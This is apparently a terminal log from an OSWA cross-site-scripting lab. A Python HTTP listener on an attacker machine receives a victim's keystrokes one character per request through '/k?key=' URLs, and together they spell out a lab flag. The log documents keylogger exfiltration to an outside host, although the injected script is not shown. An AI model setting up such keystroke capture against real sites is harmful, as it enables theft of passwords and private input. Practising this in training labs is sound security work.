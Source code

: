 ```bash
┌──(root💀gobots)-[05Aug2024 19:48:32]-[/home/kali/SUT/OSWA/xss]
└─# python3 -m http.server 80
Serving HTTP on 0.0.0.0 port 80 (http://0.0.0.0:80/) ...
192.168.240.101 - - [05/Aug/2024 19:49:03] "GET /k?key=O HTTP/1.1" 404 -                                                                                      
192.168.240.101 - - [05/Aug/2024 19:49:03] code 404, message File not found                                                                                   
192.168.240.101 - - [05/Aug/2024 19:49:03] "GET /k?key=S HTTP/1.1" 404 -                                                                                      
192.168.240.101 - - [05/Aug/2024 19:49:03] code 404, message File not found
192.168.240.101 - - [05/Aug/2024 19:49:03] "GET /k?key={ HTTP/1.1" 404 -
192.168.240.101 - - [05/Aug/2024 19:49:04] code 404, message File not found
192.168.240.101 - - [05/Aug/2024 19:49:04] "GET /k?key=a HTTP/1.1" 404 -
192.168.240.101 - - [05/Aug/2024 19:49:04] code 404, message File not found
192.168.240.101 - - [05/Aug/2024 19:49:04] "GET /k?key=d HTTP/1.1" 404 -
192.168.240.101 - - [05/Aug/2024 19:49:04] code 404, message File not found
192.168.240.101 - - [05/Aug/2024 19:49:04] "GET /k?key=1 HTTP/1.1" 404 -
192.168.240.101 - - [05/Aug/2024 19:49:04] code 404, message File not found
192.168.240.101 - - [05/Aug/2024 19:49:04] "GET /k?key=f HTTP/1.1" 404 -
192.168.240.101 - - [05/Aug/2024 19:49:04] code 404, message File not found
192.168.240.101 - - [05/Aug/2024 19:49:04] "GET /k?key=e HTTP/1.1" 404 -
192.168.240.101 - - [05/Aug/2024 19:49:05] code 404, message File not found
192.168.240.101 - - [05/Aug/2024 19:49:05] "GET /k?key=b HTTP/1.1" 404 -
192.168.240.101 - - [05/Aug/2024 19:49:05] code 404, message File not found
192.168.240.101 - - [05/Aug/2024 19:49:05] "GET /k?key=8 HTTP/1.1" 404 -
192.168.240.101 - - [05/Aug/2024 19:49:05] code 404, message File not found
192.168.240.101 - - [05/Aug/2024 19:49:05] "GET /k?key=3 HTTP/1.1" 404 -
192.168.240.101 - - [05/Aug/2024 19:49:05] code 404, message File not found
192.168.240.101 - - [05/Aug/2024 19:49:05] "GET /k?key=0 HTTP/1.1" 404 -
192.168.240.101 - - [05/Aug/2024 19:49:05] code 404, message File not found
192.168.240.101 - - [05/Aug/2024 19:49:05] "GET /k?key=9 HTTP/1.1" 404 -
192.168.240.101 - - [05/Aug/2024 19:49:06] code 404, message File not found
192.168.240.101 - - [05/Aug/2024 19:49:06] "GET /k?key=8 HTTP/1.1" 404 -
192.168.240.101 - - [05/Aug/2024 19:49:06] code 404, message File not found
192.168.240.101 - - [05/Aug/2024 19:49:06] "GET /k?key=9 HTTP/1.1" 404 -
192.168.240.101 - - [05/Aug/2024 19:49:06] code 404, message File not found
192.168.240.101 - - [05/Aug/2024 19:49:06] "GET /k?key=f HTTP/1.1" 404 -
192.168.240.101 - - [05/Aug/2024 19:49:06] code 404, message File not found
192.168.240.101 - - [05/Aug/2024 19:49:06] "GET /k?key=5 HTTP/1.1" 404 -
192.168.240.101 - - [05/Aug/2024 19:49:06] code 404, message File not found
192.168.240.101 - - [05/Aug/2024 19:49:06] "GET /k?key=c HTTP/1.1" 404 -
192.168.240.101 - - [05/Aug/2024 19:49:07] code 404, message File not found
192.168.240.101 - - [05/Aug/2024 19:49:07] "GET /k?key=7 HTTP/1.1" 404 -
192.168.240.101 - - [05/Aug/2024 19:49:07] code 404, message File not found
192.168.240.101 - - [05/Aug/2024 19:49:07] "GET /k?key=1 HTTP/1.1" 404 -
192.168.240.101 - - [05/Aug/2024 19:49:07] code 404, message File not found
192.168.240.101 - - [05/Aug/2024 19:49:07] "GET /k?key=5 HTTP/1.1" 404 -
192.168.240.101 - - [05/Aug/2024 19:49:07] code 404, message File not found
192.168.240.101 - - [05/Aug/2024 19:49:07] "GET /k?key=f HTTP/1.1" 404 -
192.168.240.101 - - [05/Aug/2024 19:49:07] code 404, message File not found
192.168.240.101 - - [05/Aug/2024 19:49:07] "GET /k?key=9 HTTP/1.1" 404 -
192.168.240.101 - - [05/Aug/2024 19:49:08] code 404, message File not found
192.168.240.101 - - [05/Aug/2024 19:49:08] "GET /k?key=4 HTTP/1.1" 404 -
192.168.240.101 - - [05/Aug/2024 19:49:08] code 404, message File not found
192.168.240.101 - - [05/Aug/2024 19:49:08] "GET /k?key=d HTTP/1.1" 404 -
192.168.240.101 - - [05/Aug/2024 19:49:08] code 404, message File not found
192.168.240.101 - - [05/Aug/2024 19:49:08] "GET /k?key=e HTTP/1.1" 404 -
192.168.240.101 - - [05/Aug/2024 19:49:08] code 404, message File not found
192.168.240.101 - - [05/Aug/2024 19:49:08] "GET /k?key=b HTTP/1.1" 404 -
192.168.240.101 - - [05/Aug/2024 19:49:08] code 404, message File not found
192.168.240.101 - - [05/Aug/2024 19:49:08] "GET /k?key=1 HTTP/1.1" 404 -
192.168.240.101 - - [05/Aug/2024 19:49:09] code 404, message File not found
192.168.240.101 - - [05/Aug/2024 19:49:09] "GET /k?key=c HTTP/1.1" 404 -
```